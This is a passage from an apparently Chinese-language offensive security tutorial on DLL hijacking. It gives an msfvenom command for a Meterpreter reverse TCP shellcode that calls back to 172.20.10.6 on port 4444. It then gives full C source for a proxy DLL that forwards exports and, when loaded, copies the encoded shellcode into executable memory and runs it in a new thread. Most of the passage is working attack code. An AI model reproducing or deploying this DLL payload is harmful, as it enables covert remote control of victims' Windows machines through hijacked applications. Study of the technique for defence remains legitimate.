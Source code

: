 然后将dll放在exe同一目录，已经劫持成功了：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825172520.png)

## 0x06 使用DLL劫持上线主机

### dll加载shellcode上线

生成shellcode：

  * 

    
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.20.10.6 -b '\xfc\xe8' lport=4444 -f c

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825172523.png)

生成dll：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "pch.h"#include "windows.h"//开始转发，将函数方法转发//导出函数#pragma comment(linker,"/EXPORT:add=testdll.add,@1")#pragma commnet(linker,"/EXPORT:message=testdll.message,@2")//入口函数BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved){    if (dwReason == DLL_PROCESS_ATTACH)    {        DisableThreadLibraryCalls(hModule);        unsigned char buf[] =            "\x48\x31\xc9\x48\x81\xe9\xc0\xff\xff\xff\x48\x8d\x05\xef\xff"            "\xff\xff\x48\xbb\x66\x9a\x22\x85\x4f\xee\xee\xb7\x48\x31\x58"            "\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x9a\xd2\xa1\x61\xbf\x06"            "\x22\xb7\x66\x9a\x63\xd4\x0e\xbe\xbc\xe6\x2e\xab\xf0\xd3\x2a"            "\xa6\x65\xe5\x06\xd2\xa9\xd7\x57\xa6\x65\xe5\x46\xd7\x13\x4c"            "\x07\x65\x9c\xe7\x2e\x95\x95\xcf\x05\xa6\xdf\x77\xca\xa6\x43"            "\xf9\x4d\xc2\xce\xf6\xa7\x53\x2f\xc4\x4e\x2f\x0c\x5a\x34\xdb"            "\x73\xcd\xc4\xbc\xce\x3c\x24\xa6\x6a\x84\x9f\x88\x6f\xcf\x7e"            "\x91\x20\x8a\xca\x9c\xee\xb7\x66\x11\xa2\x0d\x4f\xee\xee\xff"            "\xe3\x5a\x56\xe2\x07\xef\x3e\x3c\x2e\x82\x72\xc1\xc4\xae\xce"            "\xfe\x67\x4a\xc1\xd3\x07\x11\x27\xf6\xed\xae\xaa\xc8\x7e\x27"            "\xa6\xb6\xb0\xd2\x13\x45\xe3\xaf\x2f\x7e\x6b\xdb\x23\x44\x77"            "\x0e\x9b\x46\x2a\x99\x6e\xa1\x47\xab\xd7\x66\x13\x42\x7a\xc1"            "\xc4\xae\xca\xfe\x67\x4a\x44\xc4\xc4\xe2\xa6\xf3\xed\xda\x3e"            "\xcc\x4e\x3e\xaf\x3c\x62\x12\x63\xdd\x07\xef\x3e\xf6\x3e\xc4"            "\x7b\xdf\x0e\xb6\xaf\xee\x27\xc0\x6a\x06\xa3\xce\xaf\xe5\x99"            "\x7a\x7a\xc4\x16\xb4\xa6\x3c\x74\x73\x69\x7a\xb0\x11\xb3\xfe"            "\xd8\xed\x51\xb7\x10\xdd\xdc\xb7\x66\xdb\x74\xcc\xc6\x08\xa6"            "\x36\x8a\x3a\x23\x85\x4f\xa7\x67\x52\x2f\x26\x20\x85\x5e\xb2"            "\x42\xa3\x6c\x9c\x63\xd1\x06\x67\x0a\xfb\xef\x6b\x63\x3f\x03"            "\x99\xc8\xb0\x99\x4f\x6e\x0c\xa5\x86\xef\xb6\x66\x9a\x7b\xc4"            "\xf5\xc7\x6e\xdc\x66\x65\xf7\xef\x45\xaf\xb0\xe7\x36\xd7\x13"            "\x4c\x02\xdf\x2e\xff\x99\x5a\x6a\x0c\x8d\xa6\x11\x77\x2e\x13"            "\xe3\xc4\xf5\x04\xe1\x68\x86\x65\xf7\xcd\xc6\x29\x84\xa7\x27"            "\xc2\x6e\x0c\xad\xa6\x67\x4e\x27\x20\xbb\x20\x3b\x8f\x11\x62"            "\xe3\x5a\x56\x8f\x06\x11\x20\xc2\x83\x72\xb1\x85\x4f\xee\xa6"            "\x34\x8a\x8a\x6a\x0c\xad\xa3\xdf\x7e\x0c\x9e\x63\xdd\x07\x67"            "\x17\xf6\xdc\x98\xfb\x4d\x10\x11\x3b\x34\x9e\x9a\x5c\xd0\x07"            "\x6d\x2a\x97\x38\x13\xd4\xef\x0f\xaf\xb7\xdf\x66\x8a\x22\x85"            "\x0e\xb6\xa6\x3e\x94\xd2\x13\x4c\x0e\x54\xb6\x13\x35\x7f\xdd"            "\x50\x07\x67\x2d\xfe\xef\x5d\x6f\xb4\x86\xa7\x67\x47\x2e\x13"            "\xf8\xcd\xc6\x17\xaf\x0d\x64\x43\xea\xda\xb0\x3b\x6d\x4f\x66"            "\xe7\x0a\xdd\x0e\xb9\xb7\xdf\x66\xda\x22\x85\x0e\xb6\x84\xb7"            "\x3c\xdb\x98\x8e\x60\xe1\xde\x48\xb3\xcd\x7b\xc4\xf5\x9b\x80"            "\xfa\x07\x65\xf7\xcc\xb0\x20\x07\x8b\x99\x65\xdd\xcd\x4e\x2d"            "\xa6\x9e\xa0\xd2\xa7\x73\x3a\x5a\xaf\x48\x81\xc2\x48\x85\x16"            "\xa7\x29\x75\x96\x2f\x80\xd3\xb0\x3b\xee\xb7";        size_t size = sizeof(buf);        char* inject = (char*)VirtualAlloc(NULL, size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);        memcpy(inject, buf, size);        CreateThread(0, 0, (LPTHREAD_START_ROUTINE)inject, 0, 0, 0);    }    else if (dwReason == DLL_PROCESS_DETACH)    {    }    return TRUE;}
